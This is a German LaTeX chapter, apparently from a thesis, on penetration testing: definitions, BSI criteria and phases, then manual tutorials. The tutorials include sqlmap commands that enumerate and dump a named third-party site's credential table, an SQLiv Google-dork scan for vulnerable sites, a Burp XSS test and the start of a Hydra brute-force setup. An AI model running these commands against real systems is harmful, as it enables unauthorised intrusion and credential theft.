\chapter{Penetrationstest}
\label{cha:k4}

\section{Überblick}

Sicherheit ist eines der größten Probleme von Informationssystemen. Penetrationstests sind eine wichtige Sicherheitsbewertungsmethode und eine effektive Methode zur Beurteilung der Sicherheitslage eines bestimmten Informationssystems. In vielen Webanwendungen verbergen sich verschiedene Sicherheitslücken, die dem Betreiber nicht wahrnehmbar sind. Mittels dieser Sicherheitslücken entsteht ein großes Sicherheitsrisiko, weil ein Angreifer unter Umständen eine Lücke findet, die ihm unautorisierten Zugriff auf das System gewährt. Um dieses Risiko zu vermindern, werden Penetrationstests durchgeführt.

Der Umfang eines Penetrationstests kann von einzelnen Anwendungen bis zu unternehmensweiten Angriffen stark variieren. Ein Penetrationstest, der häufig mit einem Schwachstellenscan oder einer Schwachstellenanalyse verwechselt wird, versucht nicht nur, Schwachstellen zu finden, sondern sie auch in vollem Umfang auszunutzen. Dies bedeutet, dass ein Penetrationstester zwar mit der Suche nach einer Schwachstelle beauftragt werden kann, dass er jedoch alle entdeckten Schwachstellen verwendet und weiterhin ein System angreift, um mögliche zusätzliche Schwachstellen zu ermitteln\cite{northcutt2006}.

Es gibt zwei Hauptmethoden zum Erkennen von Sicherheitsanfälligkeiten in Webanwendungen: manuelle Penetrationstests oder automatisierte Scan-Tools. Der Zweck dieses Kapitels besteht darin, diese beiden Methoden zu vergleichen.

\section{Definitionen}

Bei einem Penetrationstest handelt es sich um die Sicherheit der IT-Systeme durch Bedrohungen von Angreifern inwiefern gefährdet ist bzw. ob die IT-Sicherheit durch die Sicherheitsmaßnahmen gewährleistet ist. Es werden unterschiedliche Methoden bei einem Penetrationstest verwendet, die auch von einem Angreifer durchgeführt würde. \cite[5--6]{pt03bsi}. Ein Penetrationstest für Webanwendungen konzentriert sich nur auf die Bewertung der Sicherheit einer Webanwendung. Der Prozess beinhaltet eine aktive Analyse der Anwendung auf Schwachstellen, technische Fehler oder Verwundbarkeit. Alle gefundenen Sicherheitsprobleme werden dem Systembetreiber zusammen mit einer Bewertung der Auswirkungen und häufig mit einem Vorschlag zur Milderung oder einer technischen Lösung vorgelegt\cite[46]{meucci2008owasp}.

In Bezug auf Penetrationstests gibt es eine Vielzahl von Definitionen. Nach dem von Bacudio\cite{bacudio2011overview} und Ke\cite{ke2009using} definierten Penetrationstest handelt es sich um eine Reihe von Aktivitäten zur Ermittlung und Ausnutzung von Sicherheitsschwächen. Es ist ein Sicherheitstest, bei dem versucht wird, Sicherheitsmerkmale eines Systems zu umgehen\cite{wack2003guideline}. Osborne definiert einen Penetrationstest als einen Test, mit dem sichergestellt wird, dass Gateways, Firewalls und Systeme entsprechend konzipiert und konfiguriert sind, um vor unberechtigtem Zugriff oder dem Versuch zu schützen, Dienste zu stören\cite{osborne2006cheat}.

\section{Ziele der Penetrationstests}

Da es kein System gibt, das weder jetzt noch in der Zukunft zu \%100 sicher ist, besteht eines der Hauptziele der Penetrationstests darin, zu prüfen, wie sicher ein System ist, dh wie unsicher es aus der Sicht eines Hackers ist. Um detaillierter zu erklären, werden Penetrationstests verwendet, um Lücken in der Sicherheitslage zu identifizieren, Exploits zu verwenden, um in das Zielnetzwerk zu gelangen, und dann Zugriff auf vertrauliche Daten zu erhalten\cite{yeo2013using}.

National Institute of Standards and Technology legt nahe, dass Penetrationstests auch zur Bestimmung von Folgendem nützlich sein können\cite{scarfone2008technical}: 

\begin{itemize}
	\item Wie gut das System reale Angriffsmuster toleriert.{\color{red}(How well the system tolerates real world attack patterns.)}
	\item Die wahrscheinliche Komplexität, die ein Angreifer benötigt, um das System erfolgreich zu beeinträchtigen.
	\item Zusätzliche Gegenmaßnahmen, die Bedrohungen gegen das System abschwächen könnten.
	\item Fähigkeit der Verteidiger, Angriffe zu erkennen und angemessen zu reagieren.
\end{itemize}

\section{Grundlegendes Konzept}

Penetrationstests können auf verschiedene Arten durchgeführt werden. Der häufigste Unterschied ist das Wissen über die Implementierungsdetails der getesteten Systeme, die dem Tester zur Verfügung gestellt wurden. Die weithin akzeptierten Ansätze sind Black-Box-, White-Box- und Gray-Box-Tests.

\begin{figure}[h]
	\centering
	
\includegraphics[width=14cm]{blackwhitegray.jpg}
	\caption{Die akzeptierte Ansätze\cite{bwgtesting16}}
\end{figure}

\subsection{Black-Box}

Black-Box-Tests beziehen sich auf das Testen eines Systems ohne spezifische Kenntnisse der internen Abläufe des Systems, keinen Zugriff auf den Quellcode und keine Kenntnisse der Architektur\cite{bwgwebtesting07}. Dem Tester wird nichts über das Netzwerk oder die Umgebung des Ziels mitgeteilt\cite{tiller2004ethical}. Wenn es sich um einen Black-Box-Test handelt, kann dem Tester eine Webseite oder IP-Adresse zugewiesen werden, und er soll die Website so knacken, als wäre er ein böswilliger Hacker von außen\cite{whitaker2005penetration}. Aufgrund des Mangels an internem Anwendungswissen kann das Aufdecken von Fehlern und / oder Schwachstellen jedoch erheblich länger dauern. Black-Box-Tests müssen gegen laufende Instanzen von Anwendungen ausgeführt werden. Daher ist Black-Box-Tests normalerweise auf dynamische Analysen wie das Ausführen von automatisierten Scan-Tools und manuelle Penetrationstests beschränkt\cite{bwgwebtesting07}. In Black-Box-Sicherheitstests können Hacker verschiedener Fertigkeitsstufen wie z. B. Skript-Kiddies, Mid-Level-Hacker oder Elite-Hacker\cite{bwgprole18}.

\subsection{White-Box}

Die White-Box-Tests werden auch als "interne Tests" bezeichnet. Bei diesem Ansatz simulieren Tester einen Angriff als eine Person, die über vollständige Kenntnisse der zu testenden Infrastruktur verfügt, häufig Betriebssystemdetails, IP-Adressschema und Netzwerklayouts, Quellcode und möglicherweise sogar einige Kennwörter\cite{ali2011pt}. Durch den vollständigen Zugriff auf diese Informationen können Fehler und Schwachstellen schneller entdeckt werden als mit der Test- und Fehlermethode des Black-Box-Tests. Darüber hinaus können Sie sicher sein, eine umfassendere Testabdeckung zu erhalten, indem Sie genau wissen, was Sie testen müssen. Aufgrund der Komplexität der Architekturen und des Umfangs des Quellcodes führt das White-Box-Testen jedoch zu Herausforderungen, wie die Test- und Analysebemühungen am besten ausgerichtet werden können. Zur Unterstützung von White-Box-Tests sind normalerweise Fachwissen und Tools erforderlich, z. B. Pentesting-Tool, Debugger und Quellcode-Analysatoren\cite{bwgwebtesting07}.

\section{Kriterien für Penetrationstests}

Bei einem Penetrationstest gibt es mehrere diverse Zielsetzungen, die vor dem Test bestimmt werden müssen. Mithin ist es möglich, dass bei einem Penetrationstest ein lebensnaher Angriff simuliert werden kann, aber auch ein Angriff von Firmeninternen, denen das Firmennetzwerk von ihrer täglichen Arbeit sehr gut bekannt ist. Für diesen Zweck gibt es verschiedene Kriterien, dessen Berücksichtigung für den Test unabdingbar ist. Im Folgenden werden diese Kriterien nach der Studie für Penetrationstests des BSI\cite[13--17]{pt03bsi} aufgeführt und erklärt.

\subsection{Informationsbasis}

Zunächst muss bei der Informationsbasis bestimmt werden, wie viel Information der Tester über das anzugreifende Ziel bekommen soll. Dabei differenziert man zwischen dem Black-Box-Test und dem White-Box-Test. Beim Black-Box-Test erhält der Tester über das Angriffsziel nur sehr geringe bis keine Informationen. Dieser Test simuliert einen lebensnahen Angriff, da der Tester sich zunächst mit dem zu testenden System auseinandersetzen muss, um Details zu herauszufinden, wie beispielsweise welche Dienste mit welchen Versionsnummern
dort laufen. Dies nimmt viel Zeit in Anspruch und ist sehr aufwändig. Im Unterschied zum Black-Box-Test bekommt der Tester beim White-Box-Test mehr Informationen
zum Angriffsziel. Hierdurch soll aufgezeigt werden, wie weit ein Insider mit sehr viel Wissen über die IT-Infrastruktur des Unternehmens in das Ziel eindringen kann. Für diesen Zweck erhält der Tester den alle notwendigen Informationen wie verwendete Netzwerkprotokolle, IP-Adressen und den Source Code von Anwendungen, die auf dem Zielsystem laufen.

\subsection{Aggressivität}

In passiv, vorsichtig, abwägend und aggressiv wird die Aggressivität eines Penetrationstests unterteilt. Bei einer passiven Aggressivitätsstufe werden die entdeckten Schwachstellen nur festgehalten, aber nicht verwandt. Entscheidet man sich für den vorsichtigen Ansatz, so werden Schwachstellen nur dann ausgenutzt, wenn aufgrund des Angriffs ein Systemausfall auszuschließen ist. Hierbei fällt die Wahl nur auf diejenigen Angriffsmethoden, die sehr ressourcenschonend sind. Bei einer ”abwägenden” Aggressivitätsstufe wird versucht, das Zielsystem nur so zu testen, dass eine Beeinträchtigung des Systems unwahrscheinlich ist, aber dennoch vorkommen kann. Bereits vor dem Test wird abgewogen wie wahrscheinlich es ist, dass der Test erfolgreich sein wird und welche Konsequenzen dadurch entstehen können. Bei der aggressiven Aggressivitätsstufe werden alle möglichen Schwachstellen ohne Rücksicht auf die Verfügbarkeit der Systeme getestet. Bei einem solchen Test kann ist es durchaus möglich, dass auch andere Systeme bis hin zur ganzen IT-Infrastruktur ausfallen können.

\subsection{Umfang}

Bei einem Penetrationstest sollten grundsätzlich immer alle Systeme auf Schwachstellen untersucht werden. Würde hierbei der Fokus nur auf bestimmten Komponenten liege, so bestünde weiterhin die Gefahr, dass es ein Einfallstor in das interne Netz gäbe. Erlangt ein Angreifer einmal unerlaubten Zugriff in das innere Netz, so würden sich noch mehr Möglichkeiten bieten, weitere Systeme zu befallen. Die Durchführung von einem Penetrationstest bei sehr großen Netzen ist jedoch sehr zeitintensiv und in kurzer Zeit nicht machbar. Aus diesem Grund liegt das Augenmerk oftmals auf besonders gefährdeten Komponenten wie Systeme, die direkt an das Internet angebunden sind oder sehr sensible Daten enthalten. Deshalb gibt es neben dem vollständigen Test auch den fokussierten- und den begrenzten Penetrationstest. Der fokussierte Test findet oft Anwendung, wenn
neue Systeme oder Anwendungen betrieben werden, um ein gleichmäßiges Sicherheitsniveau zu schaffen. Beim begrenzten Test liegt der Schwerpunkt auf einem bestimmten Teil der Infrastruktur.

\subsection{Vorgehensweise}
Bei der Vorgehensweise differenziert man hauptsächlich zwischen in einem verdeckten und einem offensichtlichen Test. Dabei ist das Ziel eines verdeckten Penetrationstests, Sicherheitsanwendungen wie ein Intrusion Detection System (IDS) auf ihre Wirksamkeit zu überprüfen oder auch die Mitarbeiter einer Organisation mittels Social Engineering zu prüfen. Dabei wird bei einem verdeckten Test lediglich auf Methoden gesetzt, welche vom System nicht als Angriff gewertet werden. Wird entschieden, dass ein offensichtlicher Test durchgeführt werden soll, so können je nach dem angreifenden System offensichtliche Sicherheitstests wie SQL-Injection oder Portscans durchgeführt werden.

\subsection{Technik}
Des Weiteren handelt es sich bei der Technik um ein weiteres wichtiges Kriterium beim Penetrationstest. Soll ein realer Angriff von einem Cyberkriminellen simuliert werden, so wird bei der Durchführung des Penetrationstests meist der Weg über das Netzwerk gewählt. Nichts desto trotz gibt es auch andere Einfallstore, die einem Test unterzogen werden sollten. Ist beispielsweise davon auszugehen, dass der Angreifer auch physischen Zugriff hat, könnte es leichter fallen, bestimmte Schwachstellen auszunutzen, die über das Netzwerk wegen einer existierenden Firewall nicht ausnutzbar sind. Außerdem besteht auch die Möglichkeit, bei einem Social Engineering Angriff  die Mitarbeiter des Unternehmens zur Herausgabe von Zugangsdaten zu bringen.

\subsection{Ausgangspunkt}
Durch den Ausgangspunkt wird beim Penetrationstest festgelegt, von wo der Angriff zu beginnen hat. Überwiegend betreiben dabei die Organisationen eine Firewall, um den Zugriff auf gewisse Dienste zu verhindern. Deshalb ist es nicht leicht, das dahinterliegende System anzugreifen. Aus diesem Grund liegt die Konzentration beim Penetrationstest von außen auf die Konfiguration der eingesetzten Firewall, hierdurch wird nämlich getestet, ob diese Konfigurationsfehler beinhaltet, wodurch es einem externen Angreifer ermöglicht wird, in das Innere eines Netzes einzudringen. Nicht zu vernachlässigen ist aber, dass der Penetrationstest auch von innen durchzuführen ist, da hier in vielen Fällen keine Firewall übergangen werden muss, um die laufenden Dienste und Anwendungen auf ihre Sicherheit zu überprüfen. Dabei kann ein Test von innen insbesondere die Gefahr einer Schwachstelle in der Firewall aufzeigen oder welche Möglichkeiten sich für einen Innentäter bieten würden.

\section{Ablauf eines Penetrationstest}
\label{ablaufpentest}
Im Nachfolgenden werden das Ablauf eines Penetrationstest nach der Studie für Penetrationstests des BSI\cite[100--106]{pt03bsi} beschrieben.

\newpage

\subsection{Vorbereitung}

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{vorbereitungpt.png}
	\caption{Phase 1 – Vorbereitung des Penetrationstests}
\end{figure}
Zunächst bedarf es einer gründlichen und umfassenden Vorbereitung, um die Anforderungen des Auftraggebers gerecht zu erfüllen. Hierzu muss bestimmt werden, welche Komponenten dem Test unterzogen werden sollen und wie weit der Penetrationstest gehen darf und soll. Hier besteht auch unter anderem die Möglichkeit, dass der Auftraggeber den Tester auf einen bestimmten Bereich begrenzt, den er für einen Sicherheitstest als besonders relevant und wichtig ansieht. Darüber hinaus muss im Vorhinein auch geklärt werden, welche Informationen der Tester über die IT-Infrastruktur des Unternehmens erhalten soll. Bei dieser entscheidenden Frage wird entschieden, ob es sich um einen Black-Box-Test oder einen White-Box-Test handeln soll. Um sich gegen einen späteren eventuellen Schadensersatzanspruch zu schützen, ist es zudem von unerlässlicher Wichtigkeit den Penetrationstest in seiner Gesamtheit vertraglich zu vereinbaren und dies auch zur Niederschrift zu bringen.

\subsection{Informationsbeschaffung}

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{informationsbeschaffung.png}
	\caption{Phase 2 – Informationsbeschaffung}
\end{figure}

Sofern die Vorbereitungen abgeschlossen sind und man sich über alle wesentlichen Punkte einig wurde, so kann mit der Beschaffung von Information über die Zielsysteme angefangen werden. Zunächst wird dabei ein Portscan gegen das Zielsystem durchgeführt, um einen Überblick zu bekommen welche Dienste erreichbar sind. Sodann braucht der Tester die maßgeblichen  Informationen über die eingesetzten Systeme und installierten Anwendungen, um einen genauen Überblick über die möglichen Angriffspunkte zu erlangen. Hierzu muss genug Zeit eingeplant werden, da je nach Größe des Netzes oder der Menge der zu testenden Komponenten diese variieren wird. Hierbei kann dies bis zu einige Wochen in Anspruch nehmen, wenn der Test eine große Menge an Rechnern beinhaltet.

\subsection{Bewertung der Informationen und Risikoanalyse}

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{bewertungderinf.png}
	\caption{Phase 3 – Bewertung der Informationen und Risikoanalyse}
\end{figure}

Danach werden die erlangten Informationen aus der vorherigen Phase ausführlich zusammengetragen und es findet eine Bewertung des Risikos statt. Um die Effizienz des Penetrationstests zu steigern, werden die gesammelten Informationen einer Risikobewertung unterzogen und anhand dieser Risikobewertung entschieden, welche Komponenten in der nächsten Phase genauer betrachtet werden. Hieraus ergibt sich aber auch eine Einschränkung des resultierenden Ergebnisses. Aus diesem Grund muss dies gründlich dokumentiert und an den Auftraggeber weitergegeben werden.

\subsection{Aktive Eindringversuche}

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{aktiveEindringversuche.png}
	\caption{Phase 4 – Aktive Eindringversuche durchführen}
\end{figure}

In dieser Phase wird geprüft, wie sicherheitskritisch die ausgewählten Sicherheitsmängel von Phase 3 tatsächlich sind. Dies wird dadurch erreicht, dass versucht wird so weit wie möglich in ein System vorzudringen. Hierbei ist von Relevanz, dass jeder Schritt genau bedacht wird, da durch den Versuch einzudringen die Zielsysteme auch beschädigt werden könnten. Soll beispielsweise ein System getestet werden, das eine hohe Verfügbarkeit haben soll, so muss geplant werden, wie der Test aufgebaut wird, um die Verfügbarkeit weiterhin gewähren zu können. Es gibt auch noch eine weitere Möglichkeit, um die Verfügbarkeit der zu testenden Systeme sicherzustellen, indem nämlich Schattensysteme verwendet werden. Schattensystemen sind eine exakte Kopie des zu testenden Systems. Dabei ist als Vorteil bei der Verwendung von Schattensystemen klar zu benennen, dass während des Penetrationstests sichergestellt ist, dass es zu keinen Ausfällen des tatsächlichen Systems kommt.

\subsection{Abschlussanalyse und Nacharbeiten}

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{abschluss.png}
	\caption{Phase 5 – Abschlussanalyse und Nacharbeiten durchführen}
\end{figure}

Zum Abschluss des Penetrationstests werden alle gefundenen Schwachstellen in einem Bericht aufgelistet und deren Risiken genau erläutert. Dabei sollte ein solcher Abschlussbericht neben den Resultaten des Penetrationstests auch Möglichkeiten zur Behebung etwaiger Risiken beinhalten. Ein klarer und deutlicher Bericht ist unabdingbar. Dabei sollte jede durchgeführte Aktion so beschrieben wird, dass sie für den Auftraggeber nachvollziehbar ist und gegebenenfalls wiederholt werden kann. Schließlich sollte nach der Fertigstellung des Abschlussberichts mit dem Auftraggeber ein Abschlussgespräch geführt werden. Hierbei werden noch einmal alle gefundenen Sicherheitsprobleme ausführlich besprochen.

\section{Manuelle Penetrationstest}

In diesem Abschnitt werden unterschiedliche Methoden für manuelles Penetrationstest erklärt und wird gezeigt, wie diese manuelle Tests durchgeführt werden. 

\subsection{Testen von SQL Injektion mit SQLiv und SQLMAP}

Im Nachfolgenden werden Sql Injektion mit SQLiv und SQLMAP nach dem Tutorial von \cite{ramadhan17sqlinj} beschrieben.

Vor dem Injektionsangriff müssen wir natürlich sicherstellen, dass der Server oder das Ziel eine Sicherheitslücke in der Datenbank hat. Um Sicherheitslücken in Datenbanken zu finden, können wir verschiedene Methoden verwenden. Unter ihnen wird Google Dorking hauptsächlich von Hackern und Penetrationstestern verwendet. Glücklicherweise gibt es ein Werkzeug, das dies automatisch erledigt. Das Tool muss jedoch erst installiert werden. Das Tool heißt SQLiv (SQL Injection Vulnerability Scanner).\\

\textbf{Schritt 1: Finden von SQL-Injection-Schwachstelle}

Es wird Google Dorking verwendet, um die SQL-Injektionslücke in Zielen zu suchen und zu finden. SQLiv durchsucht jedes einzelne Ziel und sucht nach einer E-Commerce-Sicherheitsschwachstelle unter dem folgenden URL-Muster \texttt{''item.php?id=''}.\\

\begin{LaTeXCode}[caption={Google Dorking mit SQLiv},captionpos=b, label=LaTeXCode:gdsqliv][numbers=none]
~# sqliv -d inurl:item.php?id= -e google -p 100
\end{LaTeXCode}

Standardmäßig durchsucht SQLiv die erste Seite in der Suchmaschine, die bei Google 10 Websites pro Seite anzeigt. Daher wird hier das Argument -p 100 definiert, um 10 Seiten (100 Sites) zu durchsuchen. Basierend auf dem oben angegebenen Dork wird ein Ergebnis von verwundbaren URLs erhaltet, das wie folgt aussieht:

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{sqllive.png}
	\caption{Durchsuchung mit SQLiv}
\end{figure}

\newpage

\textbf{Schritt 2: SQL-Injektion mit SQLMAP}

Der Angriff wird mit SQLMap ausgeführt. Zuerst muss den Datenbankname zum Vorschein gebracht werden, der in der Datenbank Tabellen und Spalten enthält, die die Daten enthalten.

Ziel-URL: \texttt{http://www.acfurniture.com/item.php?id=25}\\

\textbf{A. Datenbankname aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung vom Datenbankname},captionpos=b, label=LaTeXCode:advd1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" --dbs
\end{LaTeXCode}

Mit dem oben gegebenen Befehl wurde der Datenbankname erhalten:

\begin{table}[h]
	\centering
	\begin{tabular}{l}
		available databases         \\
		{[}*{]} acfurniture         \\
		{[}*{]} information\_schema
	\end{tabular}
	\caption{Ergebnis: Datenbankname}
\end{table}

\textbf{B. Tabellenname aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung vom Tabellenname},captionpos=b, label=LaTeXCode:advt1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture --tables
\end{LaTeXCode}

Das Ergebnis sollte so aussehen:

\begin{table}[h]
	\centering
	\begin{tabular}{|l|}
		\hline
		{[}Date{]} {[}INFO{]} retrived: settings \\ \hline
		Database: acfurniture                    \\ \hline
		{[}4 tables{]}                           \\ \hline
		category                                 \\ \hline
		product                                  \\ \hline
		product\_hacked                          \\ \hline
		settings                                 \\ \hline
	\end{tabular}
	\caption{Ergebnis: Tabellenname}
\end{table}

Bisher wurde festgestellt, dass die Website \texttt{acfurniture.com} hat zwei Datenbanken, acfurniture und information\_schema. Die Datenbank \texttt{acfurniture} enthält vier Tabellen: \texttt{category}, \texttt{product}, \texttt{product\_hacked} und settings.\\

\textbf{C. Spalten aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung von Spalten},captionpos=b, label=LaTeXCode:advs1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture -T settings --columns
\end{LaTeXCode}

\begin{table}[h]
	\centering
	\begin{tabular}{|l|l|}
		\hline
		Database:          & acfurniture      \\ \hline
		Table              & settings         \\ \hline
		\multicolumn{2}{|l|}{{[}6 columns{]}} \\ \hline
		Column             & Type             \\ \hline
		activationcode     & varchar(2048)    \\ \hline
		email              & varchar(45)      \\ \hline
		id                 & int(11)          \\ \hline
		password           & varchar(1024)    \\ \hline
		status             & smallint(2)      \\ \hline
		username           & varchar(45)      \\ \hline
	\end{tabular}
	\caption{Ergebnis: Spalten}
\end{table}

Die \texttt{settings} Tabelle besteht aus 6 Spalten, und dies ist eigentlich ein Konto mit Anmeldeinformationen. Jetzt wird versucht diese Informationen auszugeben.\\

\textbf{D. Informationen aufdecken}\\

Man kann alle Daten in der Tabelle mit folgendem Befehl ausgeben:

\begin{LaTeXCode}[caption={Aufdeckung von alle Daten in der Tabelle},captionpos=b, label=LaTeXCode:alledatenausgeben1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture -T settings --dump
\end{LaTeXCode}

Das Ergebnis sollte so aussehen:

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{aufdeckungalledatenindertabelle.png}
	\caption{Ergebnis: Alle Daten in der Tabelle}
\end{figure}

\subsection{Testen von Cross-Site-Scripting mit Burp}

Das folgende Cross-Site-Scripting-Beispiel stammt aus dem Tutorial von Web-Sicherheitsseite Portswigger\cite{portswigger12}.

\begin{figure}[h]
	\centering
	
\includegraphics[width=7cm]{xssburp.png}
	\caption{Adresse eingeben}
\end{figure}

\newpage

Man muss eine entsprechende Eingabe in die Webanwendung eingeben und die Anfrage senden.

\begin{figure}[h]
	\centering
	
\includegraphics[width=11cm]{xssburp2.png}
	\caption{Erfassung der Anfrage durch Burp}
\end{figure}

Die Anfrage wird von Burp erfasst. Die HTTP-Anforderung wird auf der Intercept-Tab angezeigt. Es wird mit der rechten Maustaste auf die Anforderung geklickt, um das Kontextmenü aufzurufen und dann wird auf "`An Repeater senden"' geklickt.

\begin{figure}[h]
	\centering
	
\includegraphics[width=11cm]{xssburp3.png}
	\caption{Bearbeiten dem Wert}
\end{figure}

Hier können verschiedene XSS-Payloads in das Eingabefeld eingegeben werden. Verschiedene Eingaben getestet werden, indem der Tester das "`Value"' des entsprechenden Parameters in den Tabs "`Raw"' oder "`Params"' bearbeiten. In diesem Beispiel wird versucht, dass ein Pop-up in unserem Browser ausgeführt wird.

\begin{figure}[h]
	\centering
	
\includegraphics[width=11cm]{xssburp4.png}
	\caption{Suche nach dem Angriff in dem Quellcode}
\end{figure}

Es kann eingeschätzt werden, ob die Angriff in der Antwort unverändert bleibt. In diesem Fall ist die Anwendung für XSS-Angriffen anfällig. Die Antwort wird schnell über die Suchleiste unten im Antwortfenster gefunden. Der hervorgehobene Text ist das Ergebnis der Suche.

\begin{figure}[h]
	\centering
	
\includegraphics[width=11cm]{xssburp5.png}
	\caption{Kopieren von URL für Browser}
\end{figure}

Hier wird auf "`Antwort im Browser anzeigen"' geklickt, um die URL zu kopieren. Danach wird im Pop-up Fenster auf "`Kopieren"' geklickt.

\newpage

\begin{figure}[h]
	\centering
	
\includegraphics[width=11cm]{xssburp6.png}
	\caption{Pop-up im Browser anzeigen}
\end{figure}

Die kopierte URL wird in Adressleiste eingegeben, um die Realisierung des XSS-Angriffs durch das Senden einer kurzen und relativ harmlosen Nachricht oder Warnung an den Client ermöglichen.

\subsection{Testen Brute-Forcing-Passwörter mit THC-Hydra}

In diesem Beispiel wird Hydra verwendet, um in eine Anmeldeseite zu gelangen, indem ein Brute-Force-Angriff auf einige bekannte Benutzer ausgeführt wird\cite[143]{najera2016kali}.

Es wird eine Textdatei namens \texttt{benutzers.txt} erstellt{najera2016kali}:

\begin{center}
	admin\\test\\user\\user1\\john
\end{center}

In einem ersten Schritt wird analysiert, wie die Anmeldeanforderung gesendet wird und wie der Server darauf reagiert. Es wird Burp Suite verwendet, um eine Anmeldeanforderung in der Webanwendung zu erfassen\cite[144]{najera2016kali}:

\newpage

\begin{figure}[h]
	\centering
